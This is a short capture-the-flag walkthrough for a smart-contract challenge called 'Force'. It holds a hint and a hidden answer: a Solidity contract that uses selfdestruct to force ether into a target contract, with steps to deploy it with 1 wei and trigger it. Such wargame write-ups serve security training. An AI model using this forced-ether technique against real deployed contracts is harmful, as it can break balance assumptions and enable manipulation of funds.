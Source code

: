 # Force

**HINT:** Your going to want to go to remix IDE and create a contract that forces the contract to have a balance.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.4.18;

contract Kill {
    
    function Kill() public payable {}
    
    function kill() public {
        selfdestruct(Instance_Address);
    }
}
```

Simply deploy the contract with 1 wei and then hit the kill button 
<br></br>
Then click submit
</p>
</details>

